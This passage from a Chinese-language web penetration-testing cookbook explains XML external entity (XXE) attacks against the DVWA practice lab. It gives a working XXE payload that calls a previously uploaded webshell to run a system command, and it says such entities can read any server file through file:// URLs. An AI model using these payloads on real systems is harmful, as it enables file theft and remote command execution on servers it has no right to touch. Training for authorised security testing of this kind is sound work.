     ![](img/6-3-3.jpg)
    
    使用这个技巧，我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。
    
    我们也可以使用 XEE 来加载页面。在上一个秘籍中，我们已经设法将 webshell 上传到服务器中，让我们试试吧。
    
    ```xml
    <!DOCTYPE fileEntity [ 
        <!ELEMENT fileEntity ANY> 
        <!ENTITY fileEntity SYSTEM "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?cmd=/sbin/ifconfig"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    
    ![](img/6-3-4.jpg)
    
### 工作原理

XML 拥有叫做实体的特性。XML 实体是与值关联的名称，每次实体在文档中使用的时候，它都会在 XML 文件处理时替换为值。使用它以及不同的可用包装器（`file://`来加载系统文件，或者`http://`来加载 URL），我们就可以通过输入校验和 XML 解析器的配置，恶意使用没有合理安全措施的实现，并提取敏感数据或者甚至在服务器中执行系统命令。
